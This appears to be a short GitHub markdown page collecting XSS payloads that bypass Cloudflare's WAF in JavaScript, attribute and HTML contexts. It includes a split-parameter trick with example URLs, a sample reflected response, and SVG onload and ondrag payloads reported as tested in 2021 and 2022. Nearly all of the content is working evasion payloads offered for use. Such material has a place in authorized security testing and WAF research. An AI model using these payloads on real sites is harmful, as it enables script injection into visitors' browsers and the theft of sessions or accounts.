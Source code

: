 # CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

### HTML Context

* For HTML context use:

`<svg/oni=on onload=confirm(2)>` Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

* When `>` is not allowed as its allowed in previous payloads, inexistent tag can be provided for xss:

`<o oni=on ondrag=alert(1)>Drag Me` -> then highlight text and drag it to trigger XSS (Crafted on `February 01, 2022`)


---

Bypasses tested on: `August 26, 2021` and `February 01, 2022`
